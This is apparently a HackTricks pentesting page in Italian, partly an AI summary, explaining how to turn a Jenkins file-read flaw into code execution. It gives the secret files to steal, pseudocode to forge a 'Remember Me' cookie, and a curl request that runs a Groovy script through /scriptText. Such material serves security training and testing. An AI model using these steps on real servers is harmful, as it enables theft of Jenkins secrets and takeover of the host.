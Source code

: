 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'AI della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" deve essere abilitato (impostazione predefinita).
- **Access Levels:** L'attaccante ha bisogno di permessi Overall/Read.
- **Secret Access:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Accedi alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- Estrai le chiavi crittografiche utilizzate per firmare il cookie:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calcola il Tempo di Scadenza del Token:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Aggiunge un'ora all'ora attuale
```

- **Concatena i Dati per il Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Decripta il File della Chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converti la chiave master nel formato chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decripta il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Calcola HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Calcola HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac) // Converti la MAC in una stringa esadecimale
```

**Cookie Encoding**

- **Genera il Cookie Finale:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Codifica in Base64 i dati del cookie
```

#### Step 3: Code Execution

**Session Authentication**

- **Recupera i Token CSRF e di Sessione:**
- Fai una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
- Cattura `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie remember-me.

**Command Execution Request**

- **Invia una Richiesta POST con uno Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{{#include ../../banners/hacktricks-training.md}}
